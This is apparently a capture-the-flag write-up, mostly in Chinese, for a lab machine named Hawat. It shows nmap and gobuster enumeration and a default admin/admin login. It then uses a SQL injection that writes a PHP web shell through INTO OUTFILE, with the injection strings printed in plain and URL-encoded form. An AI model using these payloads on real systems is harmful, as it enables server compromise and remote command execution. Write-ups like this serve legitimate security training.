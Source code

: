 # Hawat

### Nmap

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 192.168.167.147 -p-

[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-18 10:34 CST
Stats: 0:01:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 78.79% done; ETC: 10:36 (0:00:26 remaining)
Nmap scan report for 192.168.167.147
Host is up (0.074s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 78:2f:ea:84:4c:09:ae:0e:36:bf:b3:01:35:cf:47:22 (RSA)
|   256 d2:7d:eb:2d:a5:9a:2f:9e:93:9a:d5:2e:aa:dc:f4:a6 (ECDSA)
|_  256 b6:d4:96:f0:a4:04:e4:36:78:1e:9d:a5:10:93:d7:99 (ED25519)
111/tcp   closed rpcbind
139/tcp   closed netbios-ssn
443/tcp   closed https
445/tcp   closed microsoft-ds
17445/tcp open   unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Wed, 18 Dec 2024 02:36:32 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <title>Issue Tracker</title>
|     <link href="/css/bootstrap.min.css" rel="stylesheet" />
|     </head>
|     <body>
|     <section>
|     <div class="container mt-4">
|     <span>
|     <div>
|     href="/login" class="btn btn-primary" style="float:right">Sign In</a> 
|     href="/register" class="btn btn-primary" style="float:right;margin-right:5px">Register</a>
|     </div>
|     </span>
|     <br><br>
|     <table class="table">
|     <thead>
|     <tr>
|     <th>ID</th>
|     <th>Message</th>
|     <th>P
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Date: Wed, 18 Dec 2024 02:36:32 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 18 Dec 2024 02:36:32 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
30455/tcp open   http         nginx 1.18.0
|_http-title: W3.CSS
|_http-server-header: nginx/1.18.0
50080/tcp open   http         Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
```

### Use Gobuster to enumerater website's path

#### port 50080

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.167.147:50080/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.167.147:50080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 980]
/.htaccess            (Status: 403) [Size: 980]
/4                    (Status: 301) [Size: 239] [--> http://192.168.167.147:50080/4/]
/cgi-bin/             (Status: 403) [Size: 994]
/cloud                (Status: 301) [Size: 243] [--> http://192.168.167.147:50080/cloud/]
/images               (Status: 301) [Size: 244] [--> http://192.168.167.147:50080/images/]
/~ftp                 (Status: 403) [Size: 980]
/~bin                 (Status: 403) [Size: 980]
/~http                (Status: 403) [Size: 980]
/~mail                (Status: 403) [Size: 980]
/~nobody              (Status: 403) [Size: 980]
/~root                (Status: 403) [Size: 980]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
````

### Check `:50080/cloud` and get the source code of website on port 17445

連上 `:50080/clode` 後，發現登入頁面。使用預設帳號密碼 admin/admin 成功登入。並且可以載下一包名為 issue tracker 的壓縮檔

![](img/Hawat/1.png)
![](img/Hawat/2.png)

issue tracker 剛好就是 port 17445 的 title，所以可以推測這是port 17445 的網站原始碼，從 code 中可以找到 SQL injection 的可能性

`issuetracker/src/main/java/com/issue/tracker/issues/`
![](img/Hawat/3.png)

圖中可以看到觸發 SQL injection 的路徑為 `/issus/checkByPriority`，所以我們使用 Burp 製作該請求。送出後發現會回應 400 錯誤碼，代表請求有誤，從上面程式碼中可以找到 `/issus/checkByPriority` 要帶上參數 `priority` ，所以重新測試一個新的請求，成功回覆 200!

![](img/Hawat/4.png)


### Try SQL injection and get RCE

接下來就是嘗試 SQL injection，注入的指令為：
```
' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/dvwa/cmd.php' #
```
那後面要上傳的路徑我們必須要去找到，通常網站會在 `var/www` 底下，但這題不是，因為網站都是 PHP 建立的，可以嘗試透過 `url/phpinfo.php` 去查看網站的一些資訊。  

三台只有 port 30455 可以看到 phpinfo，這邊可以找到網站的在主機的路徑
![](img/Hawat/5.png)

所以我們注入的指令為：
```
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/shell.php' -- -
```
並將他 url encode，輸入至 Burp
```
%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%22%63%6d%64%22%5d%29%3b%20%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%73%72%76%2f%68%74%74%70%2f%73%68%65%6c%6c%2e%70%68%70%27%20%2d%2d%20%2d
```
成功獲得 root 權限的 shell
![](img/Hawat/6.png)
接下來只要 `cat` flag 的記事本即可
